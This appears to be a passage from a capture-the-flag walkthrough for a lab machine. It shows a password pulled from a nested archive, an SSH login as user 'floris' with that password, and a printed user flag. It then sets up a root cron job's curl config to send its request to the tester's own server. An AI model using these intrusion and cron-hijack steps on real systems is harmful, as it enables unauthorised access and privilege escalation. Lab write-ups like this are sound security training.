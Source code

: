 `BZh91AY&SY6Ǎ����@@!PtD�� t"d�hhOPIS@��6��8ET>P@�#I bՃ|3��x���������(*N�&�H��k1��x��"�{��ೱ��]��B@�6`

	file 3
	bzcat 3 > 4


`password.txt0000644000000000000000000000002313301066143012147 0ustar  rootroot5d<wdCbdZu)|hChXll`

	file 4
	tar -xf 4
	cat password.txt
	
`5d<wdCbdZu)|hChXll`

## Privilege Escalation

### SSH into floris account

```
ssh floris@10.129.171.174
5d<wdCbdZu)|hChXll
```

	cat user.txt
	65dd1df0713b40d88ead98cf11b8530b

### Explore file permission / cron vulnerability

There are various ways to observe the file permission vulnerability's relationship to cron:

#### Method 1 - time stamps

	ls -la
	
```bash
total 28
drwxr-x--- 2 root   floris  4096 May 22  2018 ./
drwxr-xr-x 6 floris floris  4096 May 22  2018 ../
-rw-rw---- 1 root   floris    25 Jul 10 10:16 input		// input & report are same date/time as local PC.
-rw-rw---- 1 root   floris 14236 Jul 10 10:16 report
```

`cat input .txt`	

	url = "http://127.0.0.1"

Gets HTML root source of page:

	cat report

Test with connection to our HTTP server:

	echo 'url = "10.10.17.201"' > input

#### Method 2 - syslog

